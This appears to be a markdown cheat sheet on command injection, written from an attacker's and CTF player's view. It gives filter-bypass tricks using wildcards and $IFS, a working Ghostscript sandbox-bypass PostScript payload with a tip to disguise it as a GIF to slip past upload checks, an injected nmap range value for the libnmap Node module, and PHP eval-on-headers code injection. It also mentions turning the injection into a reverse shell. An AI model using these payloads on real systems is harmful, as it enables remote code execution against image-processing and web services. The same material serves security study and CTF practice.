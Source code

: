 # Command injection  
1. [ghostscript RCE](#ghostscript-rce)  
2. [Command Injection in libnmap](#command-injection-in-libnmap-<nodejs>)  
3. [Dangerous use of php functions](#dangerous-use-of-php-function)  

In CTF, we can directly cat flag with cmd injection. In real world, we can directly make a reverse shell with it.  
First, we can take a look at the power of wildcard...  
```php
// match one character
cat fla?
cat ./???sword

// match multiple character
cat f*

// bypass the limit on space character
cat${IFS}flag
cat$IFSflag
```

## ghostscript RCE
The sandbox `-dSAFER` of ghostscript has been bypassed! The sandbox is controlled by the `LockSafetyParams` param in the process, then `restore` of gs can overwrite the the param. Many application based on ghostscript would be influenced, such as the most famous application imageMagick. Following is the payload of POC.jpg:  
```php
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id) currentdevice putdeviceprops
```  
Here, you can also forge it as gif with `gif89` header to deceive the file upload system.  
❗️ Attention: The timing to trigger the RCE is important.  

Others from `convert xxx.jpg xxx` can trigger the RCE, someone found that `less .jpg` can also trigger it. But why?  
```php
strace -f -o trace_result.txt less xxx.jpg

// one is suspicious
execve("/bin/sh", ["sh", "-c", "/usr/bin/lesspipe.sh xxx.jpg"], [/* 10 vars */]) = 0
```  
Then we can find something in the `lesspipe.sh`, it use `identify` command of ImageMagick to output the information of jpeg.  
[ref: mail of Tavis](http://openwall.com/lists/oss-security/2018/08/21/2)  
[ref: security team of imageMagick](https://imagetragick.com/)  
[ref: PostScript语言安全研究](https://paper.seebug.org/68/#0x03-ghostscriptimagemagick)  
[ref: ImageMagick-CVE-2016-3714](http://www.zerokeeper.com/vul-analysis/ImageMagick-CVE-2016-3714.html)  
[ref: 安全客ghostscript命令执行漏洞预警](https://www.anquanke.com/post/id/157513)  
[用二進制的方式fuzzing ImageMagick漏洞](https://github.com/lcatro/Fuzzing-ImageMagick/blob/master/%E5%A6%82%E4%BD%95%E4%BD%BF%E7%94%A8Fuzzing%E6%8C%96%E6%8E%98ImageMagick%E7%9A%84%E6%BC%8F%E6%B4%9E.md)  

## Command Injection in libnmap <Nodejs>
libnmap is the third party module for nodejs to access nmap. If attacker can control the scanned range of ip, it might cause to command injection.  
```js
range:[
	"a.b.$(id)"
]
```  
A very simple vulnerability  
[Hackerone report](https://hackerone.com/reports/390865)  

## Dangerous use of php function
1. `getallheaders()`  
[PHP Manual](http://php.net/manual/en/function.getallheaders.php)  
This function can get all the http headers. Command injection can be done with `eval(getallheaders)` and code injection in headers.  
2. `get_defined_vars()`  
[PHP Manual](http://php.net/manual/en/function.get-defined-vars.php)  
Same concept, but `reset` first would be helpful.  
[More detail to find here](http://blog.1pwnch.com/ctf/websecurity/2018/11/26/Code-Breaking-Puzzles/#easy---phplimit)  

Be careful, if the return data of the function is other type instead of string (e.g. array, object). We can use `implode()` to concate all the data to a string in advance.
